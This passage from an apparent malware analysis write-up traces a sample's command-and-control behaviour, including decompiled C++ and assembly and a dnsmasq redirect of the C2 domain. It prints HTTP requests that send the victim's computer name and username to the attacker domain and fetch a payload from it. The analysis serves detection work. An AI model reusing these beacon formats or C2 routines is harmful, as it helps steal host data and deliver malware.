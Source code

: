 Threat actors don't often realize that the omission of the `User-Agent` header makes the communication identifiable amongst legitimate browsing traffic. Not only this, but they are using `&&` for additional URI parameters. The standard is to use only one `&`, making this even more identifiable. It is common practice to pick on these mistakes and write very effective detection.

By using `dnsmasq` to change the C2 domain IP address it will allow us to write our own C2 server code to interact with the malware. Using `nslookup` we can confirm the C2 domain is now resolving to a local IP address we control.

```text
PS C:\Users\malware> nslookup subscribe.tomcruefrshsvc.com
Name:    subscribe.tomcruefrshsvc.com
Address:  10.0.2.1
```

Once the malware has sent its C2 checkin, it will then check the response for the first occurance of the `\<ComputerName\>\<Username\>` that it sent using *[strstr](https://docs.microsoft.com/en-us/cpp/c-runtime-library/reference/strstr-wcsstr-mbsstr-mbsstr-l?view=msvc-170)*.

```cpp
pcResult = strstr(C2Response,&ComputerNameUsername);
if (pcResult != (char *)NULL) {
	// <c2-ops-here>
}
```

After this has completed, it will parse between the double quotes for a process name. If a process name is provided, it will check to see if that process is currently running. If it is running, it will respond to the C2 server with the following response.

```http
GET /VcvNbtgRrPopqSD/SzWvcxuer/sDeRcEwwQaAsSN.php?txt=RNGZxxZexplorerZxxZMALWARE-PCmalware HTTP/1.1
Host:subscribe.tomcruefrshsvc.com
Connection: close
```

The format is `RNG\<delimiter\>\<process-name\>\<delimiter\>\<computername\>\<username\>`.  Interestingly, `RNG` is hardcoded and stored as a scalar operand in little endian.

```asm
mov dword ptr [CHAR_ARRAY_00407950], 0x474e52
```

If the process is not running, it will perform the following request.

```http
GET /VcvNbtgRrPopqSD/WqeC812CCvU/<payload> HTTP/1.1
Host:subscribe.tomcruefrshsvc.com
Connection: close
```

It will then create the folder `%AppData%\\Local\\Debug`. If unsuccessful, it will instead create the directory `C:\\<username\>\\Templates`.

```cpp
hResult = SHGetFolderPathA((HWND)NULL, CSIDL_LOCAL_APPDATA, (HANDLE)NULL, NULL, pszPath);
if (hResult == NULL) {
	strcat_s(pszPath,250,"\\");
    strcat_s(pszPath,250,"Debug");
    _mkdir(pszPath);
} else {
	hResult = SHGetFolderPathA((HWND)NULL,CSIDL_TEMPLATES,(HANDLE)NULL,NULL,pszPath);
	if (hResult != 0) {
		return 0;
	}
}
```
